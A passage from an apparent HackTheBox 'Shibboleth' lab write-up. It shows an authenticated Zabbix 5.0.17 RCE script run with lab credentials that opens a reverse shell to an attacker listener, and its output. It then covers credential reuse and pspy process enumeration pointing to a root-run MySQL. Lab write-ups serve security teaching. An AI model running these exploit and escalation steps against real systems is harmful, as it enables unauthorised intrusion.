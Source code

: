 ```
$ python3 rce.py http://zabbix.shibboleth.htb Administrator ilovepumkinpie1 10.10.14.42 4444
[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/                                  
[+] the payload has been Uploaded Successfully                                               
[+] you should find it at http://zabbix.shibboleth.htb/items.php?form=update&hostid=10084&itemid=33617                                                                                    
[+] set the listener at 4444 please...                                                       
[?] note : it takes up to +1 min so be patient :)                                            
[+] got a shell ? [y]es/[N]o:
```

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We cannot read the user flag from the `ipmi-svc` user yet, so we can first enumerate processes or any misconfigurations left behind by the user.&#x20;

### Credential Reuse

There was nothing in the machine as the `zabbix` user. However, attempting to do password reuse with the password found earlier works.

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Pspy --> MySQL Exploit

I found some interesting processes using `pspy64` here:

```
2023/06/27 08:56:25 CMD: UID=0    PID=955    | /usr/bin/ipmi_sim -n -c /etc/ayelow/ipmi_lan.conf -f /etc/ayelow/sim.emu                                                                                           
2023/06/27 08:56:25 CMD: UID=0    PID=954    | /bin/bash /usr/local/bin/ayelow.sh 
2023/06/27 08:56:25 CMD: UID=0    PID=1259   | logger -t mysqld -p daemon error 
2023/06/27 08:56:25 CMD: UID=0    PID=1258   | /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb19/plugin --user=root --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock
```
